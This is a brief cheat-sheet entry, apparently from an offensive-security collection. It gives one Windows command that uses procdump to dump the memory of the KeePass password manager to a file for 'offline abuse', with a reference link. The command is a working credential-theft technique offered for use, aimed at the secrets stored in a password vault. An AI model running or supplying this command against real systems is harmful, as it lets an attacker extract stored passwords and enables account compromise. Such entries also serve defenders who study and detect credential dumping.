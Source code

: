 ### 1. Dump a processes memory for offline abuse
```
procdump.exe -accepteula -ma keepass.exe keepass.dmp
```
**- Windows,memory**
#### References:

https://sourceforge.net/p/keepass/feature-requests/1907/
__________
